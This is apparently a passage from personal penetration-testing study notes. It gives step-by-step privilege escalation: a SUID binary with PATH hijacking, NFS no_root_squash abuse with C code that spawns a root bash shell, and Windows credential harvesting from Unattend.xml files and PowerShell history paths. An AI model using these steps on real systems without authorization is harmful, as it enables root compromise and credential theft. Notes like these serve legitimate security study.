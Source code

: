 setuid(0);
setgid(0);
system("script"); // make sure script name with no path
}
2. save and compile scirpt `gcc script.c -o script -w` + `chmod u+s script` | now we have a script with suid bit set | it will look for script in PATH variable
3. find writeable folder and create a script that spawns a shell `/bin/bash` with name of the script described in previous script | may need to add a folder to PATH if cant find folder
4. run first script that calls script in writable folder
--
**NFS**
--
Network File Sharing config kept in `/etc/exports`
look for `no_root_squash` | if this is present on a writable share we can create an executable with SUID bit set and run it on target system
makesure directory is readable and writable and you can cd into directory
--
1. `cat /etc/exports` | find no_root_squash
2. `showmount -e <ip>` | execute command from attacking machine, see which folder is mountable, and was visible in the last command with no root squash
3. `mkdir /tmp/backupsonattackermachine` | create folder to me mounted
4. `mount -o rw <targetip>:/backups /tmp/backupsonattackermachine` | mount dir to target
5. add script to our backup folder `/tmp/backupsonattackermachine`:
	int main()
	{
	setgid(0);
	setuid(0);
	system("/bin/bash");
	return 0;
	}
6. `gcc nfs.c -o nfs -w`
7. `chmod +s nfs`
these files will now be present on the target system
the nfs executable has suid bit set on the target system and runs with root privleges
--

**Windows PrivEsc**
--
look what tools there are in `c:\tools`
--
weaknesses:
misconfigs on windows services or scheduled tasks
excessive privledges assigned to user
vuln software
missing security patches
rdp `remmina rdp://<user>@<server>` 
--
**password harvesting**
--
unnattached installations, dont require user interaction but require an admin account, when people do these types of installations there may
be a file left on the system: `Unattended.xml`
locations:
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
in these files may be credentials
--
powershell history - some commnads require password as part of the command, you may find them in the powershell history
command using CMD - `%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`